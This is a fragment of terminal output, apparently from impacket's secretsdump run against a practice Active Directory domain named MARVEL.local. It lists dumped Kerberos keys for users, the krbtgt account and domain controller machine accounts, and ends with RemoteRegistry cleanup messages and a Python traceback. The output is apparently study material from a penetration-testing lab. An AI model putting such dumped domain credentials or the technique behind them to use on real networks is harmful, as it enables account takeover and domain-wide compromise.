 ```
Administrator:aes128-cts-hmac-sha1-96:98786a2cf10ae54b74de80f8d0ff8d20
Administrator:des-cbc-md5:a73462a8dfd5adc7
krbtgt:aes256-cts-hmac-sha1-96:91621739c59f90beed379204f908b936656cadf743fdb48b51c707708ca3ae8b
krbtgt:aes128-cts-hmac-sha1-96:39af7f87188bbb91f9c4b95c728ba0c0
krbtgt:des-cbc-md5:4c2ccb31b35dba1c
MARVEL.local\tstark:aes256-cts-hmac-sha1-96:c0253feb8fa1a0532844adabe1db7b12a0e9c2e12b84d6640ed886025c175b50
MARVEL.local\tstark:aes128-cts-hmac-sha1-96:68727fb995192f9766d6294ffd64080c
MARVEL.local\tstark:des-cbc-md5:f2253d9e1373adcd
MARVEL.local\SQLService:aes256-cts-hmac-sha1-96:7e434c38e06b23841e6764f58a7daaf8ab32c782b98c41e8a0cfe7bea0d00a93
MARVEL.local\SQLService:aes128-cts-hmac-sha1-96:0ad727708ef2aabfe159f71c579c9a0e
MARVEL.local\SQLService:des-cbc-md5:523d2c0ecdea6eba
MARVEL.local\fcastle:aes256-cts-hmac-sha1-96:35f093c1a2aafb4dffbf63201a8a9ec9171a621a3ff90b199bc92273a74d8409
MARVEL.local\fcastle:aes128-cts-hmac-sha1-96:7583c4fe87334691ef5e7fd863f636f9
MARVEL.local\fcastle:des-cbc-md5:4fa7ad454cc78954
MARVEL.local\pparker:aes256-cts-hmac-sha1-96:5fc6b0c6792c9a3b62432eda4a61e5c71efc2c57f5466abea92ac4c16fcae580
MARVEL.local\pparker:aes128-cts-hmac-sha1-96:7693d96d854240b8c654c1f8a86387e1
MARVEL.local\pparker:des-cbc-md5:e3d640734938ec34
HnlbLdcDQz:aes256-cts-hmac-sha1-96:e628b53a8267632f459a6b3df2820c2e954b3ad44f1ac2b64a313f55d4116630
HnlbLdcDQz:aes128-cts-hmac-sha1-96:47d03bcd73c32a9294c87a06b4be38f0
HnlbLdcDQz:des-cbc-md5:1c23ad4623e00249
hawkeye:aes256-cts-hmac-sha1-96:70306b40ac0b9da21903551fa70b3191b61d88749e356b11cbe93721a0d3b471
hawkeye:aes128-cts-hmac-sha1-96:2ee48035a17365b1951d8a8105c917e4
hawkeye:des-cbc-md5:01f758f731b6757c
HYDRA-DC$:aes256-cts-hmac-sha1-96:910b3e434a744a5790265135d0008370e258b4074fdf992ee0c32a55b0ec4b5e
HYDRA-DC$:aes128-cts-hmac-sha1-96:0f007e2f0d818b9859c49398ab22c3ce
HYDRA-DC$:des-cbc-md5:ae5edc5e043e85b5
THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90
THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d
SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
SPIDERMAN$:des-cbc-md5:801cc729baf72994
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
Exception ignored in: <function Registry.__del__ at 0x7f6e0bb5a160>
Traceback (most recent call last):
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 185, in __del__
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/winregistry.py", line 182, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/examples/secretsdump.py", line 360, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smbconnection.py", line 605, in closeFile
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 1356, in close
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 473, in sendSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/smb3.py", line 442, in signSMB
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/crypto.py", line 150, in AES_CMAC
  File "/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/Cryptodome/Cipher/AES.py", line 229, in new
```